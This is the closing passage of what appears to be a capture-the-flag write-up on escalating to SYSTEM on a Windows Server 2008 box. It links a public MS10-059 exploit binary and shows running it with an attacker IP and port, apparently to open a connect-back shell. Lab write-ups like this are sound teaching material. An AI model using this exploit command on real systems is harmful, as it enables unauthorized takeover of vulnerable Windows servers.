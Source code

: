 The target system is pretty old (Windows server 2008) and we got multiple exploit to try.

One exploit that i try first is `MS10-059`, a copy of the executable can be found [here](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe).

Now we upload the exploit to the target and run it

```bash
MS10-059.exe 10.10.17.90 9999
```

![](5.png)

We got SYSTEM.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).